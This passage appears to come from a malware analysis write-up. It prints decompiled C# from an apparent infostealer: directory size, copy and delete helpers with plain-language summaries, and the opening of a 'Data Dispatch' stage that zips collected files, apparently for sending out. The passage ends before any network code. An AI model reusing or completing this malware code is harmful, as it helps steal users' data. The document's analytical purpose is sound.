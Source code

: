 ```csharp
		// Token: 0x06000014 RID: 20 RVA: 0x00002F64 File Offset: 0x00001164
		public static long DirectorySize(string path)
		{
			DirectoryInfo directoryInfo = new DirectoryInfo(path);
			return directoryInfo.GetFiles().Sum((FileInfo fi) => fi.Length) + directoryInfo.GetDirectories().Sum((DirectoryInfo di) => Filemanager.DirectorySize(di.FullName));
		}
	}
}

```

### **RecursiveDelete**

- Checks if the target directory exists.
- If it exists:
    - Recursively calls itself for each subdirectory.
    - Deletes all files in the directory.
    - Deletes the directory itself.
- No action if directory does not exist.

---

### **CopyDirectory**

- Checks if the destination directory exists; creates it if missing.
- Copies all files from source to destination using `File.Copy`.
- Recursively copies each subdirectory into the corresponding destination.
- Logs errors (e.g., access denied) to the console during copy attempts.

---

### **DirectorySize**

- Sums the size of all files in the target directory using `Directory.GetFiles` and `FileInfo.Length`.
- Recursively calls itself for all subdirectories and adds their sizes.
- Returns total directory size as `long` (bytes).

# Stage 9:  Data Dispatch

```csharp
using System;
using System.IO;
using System.Net;
using System.Text;
using Ionic.Zip;
using Main;

namespace Senders
{
	// Token: 0x02000003 RID: 3
	internal class DataDispatch
	{
		// Token: 0x06000004 RID: 4 RVA: 0x00002178 File Offset: 0x00000378
		public static void ZipCompression()
		{
			try
			{
				using (ZipFile zipFile = new ZipFile(Encoding.GetEncoding("cp866")))
				{
					zipFile.CompressionLevel = 9;
					ZipFile zipFile2 = zipFile;
					string[] array = new string[6];
```